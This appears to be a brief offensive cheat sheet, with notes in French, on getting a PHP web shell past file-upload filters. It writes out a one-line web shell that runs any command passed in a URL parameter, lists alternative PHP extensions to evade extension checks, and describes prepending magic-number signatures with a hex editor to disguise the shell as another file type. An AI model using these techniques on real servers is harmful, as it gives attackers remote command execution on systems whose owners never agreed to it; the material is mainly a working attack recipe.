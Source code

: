#extension

```sh
echo '<?php system($_GET["command"]); ?>' > file.ext
```

Ext:

```
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
.phtml
```

#Magic-Numbers

Note: https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5

```sh
echo '<?php system($_GET["cmd"]); ?>' > file.php
```

Copier une des signature dans le fichier

```sh
hexeditor file.php
```

Pour corriger certaine anomalie

```
nano file.php
```